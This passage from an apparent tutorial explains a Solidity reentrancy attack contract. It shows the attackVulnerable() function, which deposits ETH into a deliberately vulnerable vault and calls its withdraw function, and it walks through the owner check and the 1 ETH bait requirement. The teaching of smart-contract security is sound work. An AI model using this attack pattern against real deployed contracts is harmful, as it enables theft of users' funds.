 Think of it like assigning control of the red launch button — no one else should be able to press it.

---

# 💣 `attackVulnerable()` – Starting the Heist

---

```solidity
 
function attackVulnerable() external payable {
    require(msg.sender == owner, "Only owner");
    require(msg.value >= 1 ether, "Need at least 1 ETH to attack");

    attackingSafe = false;
    attackCount = 0;

    targetVault.deposit{value: msg.value}();
    targetVault.vulnerableWithdraw();
}

```

This is where the **attack officially begins**. The attacker calls this function to kick off a chain reaction that abuses the vulnerable vault logic.

Let’s break it down line by line — and explain what really happens under the hood.

---

### 🧑‍💼 Access Control

```solidity
 
require(msg.sender == owner, "Only owner");

```

Only the **original attacker** (the deployer of this contract) is allowed to launch the attack. That’s a basic security layer — just in case someone else tries to hijack the contract.

---

### 💰 Minimum ETH Requirement

```solidity
 
require(msg.value >= 1 ether, "Need at least 1 ETH to attack");

```

The attacker must send **at least 1 ETH** with this function call — this is the initial "bait" deposit that makes the vault believe this is a normal user.

---